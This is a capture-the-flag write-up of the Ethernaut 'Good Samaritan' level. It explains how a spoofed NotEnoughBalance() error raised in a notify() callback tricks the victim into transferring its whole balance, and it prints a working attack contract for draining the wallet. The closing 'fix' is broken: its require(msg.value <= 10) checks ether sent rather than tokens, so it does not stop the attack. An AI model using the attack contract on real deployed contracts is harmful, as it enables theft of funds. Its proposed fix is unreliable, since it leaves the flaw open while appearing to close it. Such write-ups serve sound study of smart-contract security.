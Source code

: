 # Good Samaritan challenge - Level 27

<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level27&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- when the player calls the requestDonation() and receives 10 tokens, the player can use this as an opportunity to attack, player simply reverts the transaction with the error NotEnoughBalance(),
- below, in the NatSpec comments I describe in further detail, how this attack unfolds over the various dependencies of the victim contract.

```Solidity
/// @notice This function is the main target in the attack from the victim contract GoodSamaritan.sol. 
function requestDonation() external returns(bool enoughBalance){
  // donate 10 coins to requester
  try wallet.donate10(msg.sender) {
    return true;
  } catch (bytes memory err) {
    if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
      // send the coins left
      wallet.transferRemainder(msg.sender);
      return false;
    }
  }
}

/**
* @notice This is the interface used to notify the attack contract, it is called from the main attack suface, 
* Coin a dependency of the victim contract.
*/
interface INotifyable {
    function notify(uint256 amount) external;
}

/** 
* @notice This transfer function from contract Coin, is the main attack surface from this dependency 
* of the victim contract, because of the second if() statement. Player will use INotifyable() from the attack 
* contract to intiate the attack on the main attack target from the victim contract. 
*/
   function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }

```

## 🆘 The victim contract in detail

```yml
The victim references three dependencies here, contract Coin has the main attack surface:
```
- the contract Coin uses the interface INotifyable that is also used in the attack inconjuction with the main attack surface, 

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;
```

- the main target of the attack is the if() statement inside the requestDonation() function,

```Solidity
constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            /** 
            * @notice This if() statement is the main attack target specifically "NotEnoughBalance()",
            * player must send this error to satisfy this if statement.
            */
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}
 ```
 
 ## 🆘 The victim contract's dependency
 
 - this code snippet below, coming from the victim contract's dependency contract Coin, shows that if a contract is receiving the tokens, the contract will calls the interface INotifyable to send the notice,

```Solidity
 function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) { // <--- Player is using an attack contract, so attack contract will receive notice
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
```

## 🆘 The victim contract's dependency uses an interface 

- The attack contract uses this notice to intiate the attack.

```Solidity
interface INotifyable {
    function notify(uint256 amount) external;
}
```

## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```
- There are no limits to the amount of tokens this function transfers,

```Solidity
// there are no limits on this function.
 wallet.transferRemainder(msg.sender);
 ```

## 💥 The attack contract in detail

```yml
The attack contract:
```

- The attack contract uses an interface to call the main target's requestDonation() function,

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

/// @notice This is the interface to call the main target's function.
interface IGoodSamaritan {
  function requestDonation() external returns (bool enoughBalance);
} 

/// @title Ethernaut challenge 27, hack contract, steal everything! 
/// @author WrappedUsername
contract GoodSamaritanAttack {  
  /// @notice This error is used to satisfy the if() statement in the main target
  error NotEnoughBalance();
```

- The attack function is used to call the IGoodSamaritan interface,

```Solidity
  /** 
  * @notice This is the attack, player simply requests a donation, 
  * and steals everything with one click!
  */
  function attack(address _addr) external { 
     IGoodSamaritan(_addr).requestDonation();
  }

  /// @notice Notify is called when this contract receives the tokens.
  function notify(uint256 amount) external pure {
    /** 
    * @notice When the attack contract is notified about receiving 10 
    * tokens the attack contract reverts NotEnoughBalance() to the victim contract.
    */
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
}
```

## 💥 The attack in detail

```yml
The secret to the attack:
```

- The trick with using the notice to intiate the attack is to *not* revert the *entire* transaction with the error, so player will receive the tokens, and after that revert NotEnoughBalance() 

```Solidity
/** 
    * @notice When the attack contract is notified about receiving 10 
    * tokens the attack contract reverts NotEnoughBalance() to the victim contract.
    */
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
```

## 🩺 How can we fix this vulnerablity in the victim contract?

- Simple, limit the amount that can be transfered with a simple require() statement.

```Solidity
 function requestDonation() public payable returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                require(msg.value <= 10); /// @notice <-------- Add require statement here!
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }

```





